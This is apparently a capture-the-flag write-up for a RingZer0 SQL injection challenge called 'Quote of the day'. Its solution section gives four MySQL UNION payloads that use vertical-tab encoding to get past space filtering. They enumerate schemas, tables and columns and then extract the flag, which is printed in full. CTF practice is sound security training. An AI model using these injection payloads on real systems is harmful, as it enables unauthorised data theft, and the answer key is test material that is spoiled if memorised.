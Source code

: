 <h1>Quote of the day</h1>
<h3>Description</h3>
<p>http://challenges.ringzer0ctf.com:10037/</p>
<h3>Solution</h3>
<p>Payload MySQL :</p>
<pre>
3%0bUNION%0bSELECT%0b1,SCHEMA_NAME%0bFROM%0bINFORMATION_SCHEMA.SCHEMATA#"                                         = database sqli_quote
3%0bUNION%0bSELECT%0b1,TABLE_NAME%0bFROM%0bINFORMATION_SCHEMA.TABLES%0bWHERE%0bTABLE_SCHEMA=database()#           = table sqli_quote = alkdjf4iu dan quotes
3%0bUNION%0bSELECT%0b1,COLUMN_NAME%0bfrom%0bINFORMATION_SCHEMA.COLUMNS%0bwhere%0btable_name=0x616c6b646a66346975# = column alkdjf4iu = flag dan id
3%0bUNION%0bSELECT%0b1,flag%0bfrom%0balkdjf4iu#                                                                   = FLAG-bB6294R6cmLUlAu6H71sTd2JBR
</pre>
<h3>Flag</h3>
<pre>
FLAG-bB6294R6cmLUlAu6H71sTd2JBR
</pre>
